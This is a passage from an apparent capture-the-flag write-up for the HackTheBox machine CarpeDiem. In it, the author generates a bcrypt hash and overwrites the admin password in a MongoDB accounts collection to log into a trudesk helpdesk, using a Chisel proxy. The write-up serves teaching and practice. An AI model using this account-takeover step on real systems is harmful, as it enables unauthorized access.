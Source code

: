 ```
    "<p>Please don&#39;t expose that application publically.  I told you I would help when I had time and right now I&#39;m just too busy.<br>Build it out if you&#39;d like, but...just don&#39;t do anything stupid.</p>\n",
    "<p>Don&#39;t worry. I moved it off of the main server and into a container with SSL encryption.</p>\n"
  ]
}

```

Issue uid 1006 is what I need to continue.

#### Logging into trudesk

I don’t have creds for trudesk, but I have access to the database. I’ll get the hash for a password I know:

```

oxdf@hacky$ python3
Python 3.8.10 (default, Jun 22 2022, 20:18:18) 
[GCC 9.4.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import bcrypt
>>> bcrypt.hashpw( b'0xdf0xdf', bcrypt.gensalt(rounds=4))
b'$2b$04$p4DfSZ3YHjdBgs/9f.qWnOJq7.DEKBfGledDp2zJVfTKdJSFwllPK'

```

I’ll note that one of the users has username admin. I’ll update that account’s password hash to the newly generated one:

```

> db.accounts.update( {"username" : "admin" }, {$set: {"password": "$2b$04$p4DfSZ3YHjdBgs/9f.qWnOJq7.DEKBfGledDp2zJVfTKdJSFwllPK"} });
WriteResult({ "nMatched" : 1, "nUpserted" : 0, "nModified" : 1 })

```

With it, I can log in and access the tickets:

![image-20221128172534600](https://0xdfimages.gitlab.io/img/image-20221128172534600.png)

I can access this using the Chisel socks proxy *or* by adding `trudesk.carpediem.htb` to my `/etc/hosts` file and then hitting it directly on port 80.

#### trudesk API

The intended path for the box is to look at the under development trudesk page in the admin panel. The page itself doesn’t have anything interesting, but there’s a `Trudesk.php` file in the `classes` folder:

```

www-data@3c371615b7aa:/var/www/html/portal/classes$ ls
DBConnection.php  Master.php          Trudesk.php  Zone.php
Login.php         SystemSettings.php  Users.php

```
